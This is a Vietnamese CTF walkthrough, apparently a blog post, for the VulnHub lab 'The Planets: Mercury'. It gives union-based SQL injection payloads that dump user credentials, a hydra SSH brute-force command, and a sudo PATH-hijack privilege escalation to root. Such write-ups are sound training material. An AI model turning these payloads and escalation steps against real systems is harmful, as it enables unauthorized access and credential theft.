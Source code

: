 ```yaml
---
title: "The Planets: Mercury Writeup - VulnHub"
categories:
  - CTF Writeup
  - VulnHub
tags:
  - hacking
  - The Planets
render_with_liquid: false
date: "2023-07-22 20:25:45"
---
```


Download [THE PLANETS: MERCURY](https://www.vulnhub.com/entry/the-planets-mercury,544/){:target="\_blank"}

**Level**: Easy

## Scanning

<br>
Sử dụng **arp-scan** để xác định ip máy chủ mục tiêu

![scan ip](/assets/img/posts/mercury-walkthrough/scan-ip.png)

Sau khi xác định được ip, tiến hành scan các port dịch vụ. Thử scan các known port trước cho đỡ tốn thời gian

![scan port](/assets/img/posts/mercury-walkthrough/scan-port.png)

Thấy được 2 services đang hoạt động, ssh port 22 và web server port 8080. Thử truy cập webpage `http://10.0.2.4:8080`
xem khám phá được gì không

![run website](/assets/img/posts/mercury-walkthrough/website.PNG)

Response trả về là 1 thông báo rằng site đang trong quá trình phát triển, ta có thể đoán có 1 hoặc 1 số ứng dụng web đang chạy trên máy mục tiêu. Tiến hành enumerate files phổ biến, có thể sử dụng tools `dirb`, `dirsearch`, `gobuster`, ...

![enumerate files](/assets/img/posts/mercury-walkthrough/enumerate-files.PNG)

Truy cập `/robots.txt` cũng không có manh mối gì. Nhưng may mắn thay, trong khi mình thử random 1 số file thì nó hiển thị ra 1 số errors do dev quên không tắt tính năng debug :))

![enumerate files](/assets/img/posts/mercury-walkthrough/clue.PNG)

Phát hiện được có tồn tại một folder `mercuryfacts/`. Truy cập nó và xem nó có gì

![mercuryfacts](/assets/img/posts/mercury-walkthrough/mercuryfacts.PNG)

![load a fact](/assets/img/posts/mercury-walkthrough/load-a-fact.PNG)

Ở đây có xuất hiện 2 link, Truy cập <u>Load a fact</u> thì trang này có chứa dữ liệu trả về theo id từ url, khả năng gọi từ database nên mình test thử sql injection bằng cách chèn nháy đơn:

![sql error](/assets/img/posts/mercury-walkthrough/sql-error.PNG)

Không còn nghi ngờ gì nữa, site này dính SQLi và trang debug hiển thị lỗi sql, cho thấy rằng payload của ta được chấp nhận để truy vấn vào database. Hơn thế nữa, dựa vào syntax error xác định được Union-based SQLi. Mở Burp và tiến hành khai thác.
<br>

## Exploitation

Thử câu truy vấn "thần thánh" `or 1=1` để bắt đầu khai thác:

```plaintext
/mercuryfacts/1 or 1=1
```

![exploit](/assets/img/posts/mercury-walkthrough/exploit-1.PNG)

Đúng như mong đợi, kết quả là đã dump được tất cả các row trong sự kiện này (À, trước khi gửi request thì url-encode đã nhé!)
<br>

Tiếp tục với câu lệnh UNION, tiến hành exploit tên database

```
/mercuryfacts/1 union select database()
```

![exploit](/assets/img/posts/mercury-walkthrough/exploit-3.PNG)

Tìm tên các bảng từ database đã tìm được, tham chiếu từ `information_schema`.

```
/mercuryfacts/1 union select group_concat(table_name) from information_schema.tables where table_schema='mercury'/
```

![exploit](/assets/img/posts/mercury-walkthrough/exploit-4.PNG)

Có 2 bảng được trích xuất, nhưng chỉ cần quan tâm đến bảng `users`.

```
/mercuryfacts/1 union select group_concat(column_name) from information_schema.columns where table_schema='mercury' and table_name='users'/
```

![exploit](/assets/img/posts/mercury-walkthrough/exploit-5.PNG)

Lần lượt dump username và password.

```
/mercuryfacts/1 union select group_concat(username) from users/
```

![exploit](/assets/img/posts/mercury-walkthrough/exploit-6.PNG)

```
/mercuryfacts/1 union select group_concat(password) from users/
```

![exploit](/assets/img/posts/mercury-walkthrough/exploit-7.PNG)

Nhớ ra rằng ssh đang chạy cổng 22. Quá là lười thử từng username và password nên mình sẽ lựa chọn `hydra` để tổ hợp từng username password và login vô ssh.

```shell
hydra -L username.txt -P password.txt ssh://10.0.2.4 -V
```

![exploit](/assets/img/posts/mercury-walkthrough/exploit-8.PNG)

Kết quả có 2 combination (nhưng là vì lab này đã được custom lại nên có thêm user `cmcleuleu`, còn bản gốc thì user_flag nằm ngay trong user `webmaster`). Tiến hành login user `cmcleuleu` và get user flag.

![user flag](/assets/img/posts/mercury-walkthrough/user_flag.PNG)

Switch user qua `webmaster` và thực hiện Privilege Escalation.

## Privilege Escalation

Khám phá một lúc thì phát hiện được có 1 secret notes nằm trong thư mục dự án

![secret notes](/assets/img/posts/mercury-walkthrough/secret_notes.PNG)

Decode base64 ta nhận được password của `linuxmaster`, su `linuxmaster` và tìm kiếm root flag

![linuxmaster user](/assets/img/posts/mercury-walkthrough/linuxmaster.PNG)

Kiểm tra đặc quyền của _linuxmaster_ thông qua `sudo -l`

![linuxmaster privilege](/assets/img/posts/mercury-walkthrough/linuxmaster-privilege.PNG)

Có thể thấy, user có thể thực thi script `/usr/bin/check_syslog.sh` với quyền _root_ và lại được set preserved environment. Kiểm tra xem file `check_syslog.sh` có gì:

![check_syslog.sh](/assets/img/posts/mercury-walkthrough/check_syslog.PNG)

User không có quyền ghi file `check_syslog.sh` nhưng có thể thực thi nó, hơn thế nữa trong shell script có chứa lệnh `tail` được gọi. Ý tưởng là ghi đè lệnh tail để gọi shell cùng với đó là chạy dưới quyền root.

```shell
linuxmaster@cmclabs1:~$ echo "/bin/bash" > tail
linuxmaster@cmclabs1:~$ chmod 777 tail
linuxmaster@cmclabs1:~$ export PATH=$(pwd):$PATH
```

Cuối cùng, thực thi script `check_syslog.sh` dưới chế độ _preserved environment_ cho PATH:

```shell
sudo --preserve-env=PATH /usr/bin/check_syslog.sh
```

bÙm...

```shell
root@cmclabs1:/home/linuxmaster# cd /root
root@cmclabs1:~# ls
root_flag.txt
root@cmclabs1:~# cat *
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@/##////////@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@(((/(*(/((((((////////&@@@@@@@@@@@@@
@@@@@@@@@@@((#(#(###((##//(((/(/(((*((//@@@@@@@@@@
@@@@@@@@/#(((#((((((/(/,*/(((///////(/*/*/#@@@@@@@
@@@@@@*((####((///*//(///*(/*//((/(((//**/((&@@@@@
@@@@@/(/(((##/*((//(#(////(((((/(///(((((///(*@@@@
@@@@/(//((((#(((((*///*/(/(/(((/((////(/*/*(///@@@
@@@//**/(/(#(#(##((/(((((/(**//////////((//((*/#@@
@@@(//(/((((((#((((#*/((///((///((//////(/(/(*(/@@
@@@((//((((/((((#(/(/((/(/(((((#((((((/(/((/////@@
@@@(((/(((/##((#((/*///((/((/((##((/(/(/((((((/*@@
@@@(((/(##/#(((##((/((((((/(##(/##(#((/((((#((*%@@
@@@@(///(#(((((#(#(((((#(//((#((###((/(((((/(//@@@
@@@@@(/*/(##(/(###(((#((((/((####/((((///((((/@@@@
@@@@@@%//((((#############((((/((/(/(*/(((((@@@@@@
@@@@@@@@%#(((############(##((#((*//(/(*//@@@@@@@@
@@@@@@@@@@@/(#(####(###/((((((#(///((//(@@@@@@@@@@
@@@@@@@@@@@@@@@(((###((#(#(((/((///*@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@%#(#%@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

Congratulations!!!
If you have any feedback please contact me at autosys@cmcinfosec.com
[root_cmcsoc_flag_1a7e3807f7122beb1527b54d6b46aad3]
```
